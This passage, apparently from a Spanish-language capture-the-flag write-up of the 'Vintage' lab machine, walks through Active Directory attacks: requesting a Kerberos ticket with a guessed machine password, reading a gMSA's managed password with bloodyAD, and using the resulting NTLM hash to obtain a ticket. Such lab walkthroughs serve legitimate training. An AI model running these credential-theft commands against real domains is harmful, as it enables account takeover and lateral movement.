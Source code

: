 ### Abusing ReadGMSAPassword privileges (bloodyAD)

El primer objetivo, será lograr obtener un TGT del equipo (FS01$@vintage.htb), para ello a través de la herramienta de **impacket-getTGT** solicitaremos el tiquet del equipo.&#x20;

En este caso, la contraseña del equipo es la misma que la del nombre del equipo. Conseguimos el ticket y lo exportamos a la variable **KRB5CCNAME** para otbener el tiquet TGT.

```bash
impacket-getTGT vintage.htb/FS01$:fs01

export KRB5CCNAME=FS01\$.ccache
```

<figure><img src="../../../.gitbook/assets/2721_vmware_4Mhkvn4n3w.png" alt=""><figcaption></figcaption></figure>

A través de la herramienta de **bloodyAD** y autenticándonos con el ticket TGT que tenemos almacenado, verificaremos que podemos leer la contraseña del GMSA y otbener su hash NTLM.

Este comando nos permitirá acceder al atributo msDS-ManagedPassword y obtener la contraseña del GMSA (_GMSA01$@vintage.htb)_, la cual luego podremos utilizar para obtener su hash NTLM.

{% code overflow="wrap" %}
```bash
bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" -k get object 'GMSA01$' --attr msDS-ManagedPassword
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2722_vmware_5nRbkHGVJT.png" alt=""><figcaption></figcaption></figure>

### **Abusing AddSelf Privileges with bloodyAD - Adding a Member to a Group**

Una vez obtenido el hash NTLM del GMSA (GMSA01$@vintage.htb), procederemos a solicitar su TGT (Ticket Granting Ticket) para autenticarnos mediante Kerberos debido que la autenticación a través de NTLM parece estar deshablitada o protegida.

Para obtener el TGT, utilizaremos el siguiente comando con el hash NTLM que hemos obtenido previamente.&#x20;

Una vez obtenido el ticket TGT, lo almacenamos nuevamente en la variable KRB5CCNAME para poder utilizarlo en futuros pasos.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">impacket-getTGT vintage.htb/GMSA01$ -hashes aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53
<strong>
</strong><strong>export KRB5CCNAME=GMSA01\$.ccache
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/2723_vmware_ZwN5Qpvwlz.png" alt=""><figcaption></figcaption></figure>

Finalmente, verificamos que el TGT sea válido y que esté correctamente almacenado en nuestra variable utilizando el siguiente comando:

```bash
klist -e
```
